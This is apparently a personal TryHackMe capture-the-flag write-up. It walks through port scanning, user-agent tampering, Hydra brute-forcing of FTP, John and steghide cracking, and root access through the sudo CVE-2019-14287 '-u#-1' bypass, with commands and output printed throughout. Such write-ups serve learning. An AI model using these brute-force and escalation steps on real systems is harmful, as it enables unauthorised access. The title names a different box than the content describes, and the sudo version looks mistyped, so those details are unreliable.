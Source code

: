 # [Bounty Hacker CTF] - Writeup

**Platform:** TryHackMe    
**Difficulty:** Easy    
**Date Completed:** [15.10.2025]    
**Skills Used:** [Password cracking, Steganography]    
**Tools Used:** [Hydra, John the ripper, steghide]    

## Executive Summary

This box required me to enumerate open ports, manipulate HTTP headers to discover hidden pages, and crack FTP credentials using Hydra. After logging into FTP, I found password-protected images containing steganographic data, which I extracted using steghide and John the Ripper. The recovered credentials allowed me SSH access as user james. Finally, I exploited CVE-2019-14287 in sudo version 1.18.21p2 to escalate privileges to root by executing commands with user ID -1.

## Initial Reconnaissance

### Port Scanning

As usual I started by scanning the target machine for open ports :

```bash
sudo nmap -sS -sV 10.10.24.78
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-15 22:46 CEST
Nmap scan report for 10.10.24.78
Host is up (0.034s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.52 seconds
```

**Results:**

- Port 21: FTP
- Port 22: SSH
- Port 80: HTTP

How many open ports ? 3

## Vulnerability Analysis

When visiting the website, the main page shows :

```html
Dear agents, Use your own codename as user-agent to access the site. From, Agent
R
```

I tried to put different alphabet letters as the user-agent (using OWASP ZAP to replicate requests). And with agent C :

```html
Attention chris, <br /><br />

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also,
change your god damn password, is weak! <br /><br />

From,<br />
Agent R
```

But then I do not get any special response when changing my user-agent to J.

How do you redirect yourself to a secret page? user-agent

What is the agent name? chris

I then attempted to find chris' ftp password, using rockyou.txt as a wordlist :

```bash
hydra -l chris -P /home/armould/rockyou.txt ftp://10.10.24.78
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-15 23:12:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344390 login tries (l:1/p:14344390), ~896525 tries per task
[DATA] attacking ftp://10.10.24.78:21/

[21][ftp] host: 10.10.24.78   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-15 23:13:06
```

FTP password : crystal

After logging into ftp using chris' credentials, I found some "alien images" files, as well as a new text file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

This sounds like steganography ! In one of the 2 alien images, I see that there is a hidden zip file (binwalk automatically extracts it for me) :

```bash
 binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```

But I cannot unzip it as it is password protected. I thus try to crack it using John the ripper and the rockyou wordlist :

```bash
zip2john 8702.zip > zip_hash

/home/armould/john/run/john zip_hash --wordlist=/home/armould/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size [KiB]) is 1 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE (2025-10-16 18:23) 3.704g/s 151703p/s 151703c/s 151703C/s 123456..loser69
```

Zip file password : alien

This password lets me access yet another secret text file :

```bash
cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

After searching for a little bit, I discovered that this is the base64 encoding for 'Area51'.

steg password : Area51

It is now time to go back to the second alien image that seemed to not have any hidden content : It seems like the file was simply password protected.
And indeed :

```bash
steghide extract -sf cute-alien.jpg
Entrez la passphrase:
Écriture des données extraites dans "message.txt".

cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

I obtained J's actual name (hoping that it is also his login) and his password. I can now connect to the target via ssh with his credentials.

Who is the other agent (in full name)? james
SSH password : hackerrules!
What is the user flag? [USERFLAG]

There is also an image in james' directory, and after a little reverse search :
What is the incident of the photo called? Roswell alien autopsy

## Privilege Escalation

After some research, I realised that the sudo version(1.18.21p2) has a vulnerability that can lead to privilege escalation :

CVE number for the escalation : CVE-2019-14287
This exploit works as following : If a user is allowed to run commands as any user EXCEPT root (ALL, !root), they can still execute commands as root by specifying user ID -1.

```bash
sudo -n -u#-1 /bin/bash
root@agent-sudo:~#
```

And I am in !

```bash
cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
[ROOTFLAG]

By,
DesKel a.k.a Agent R

```
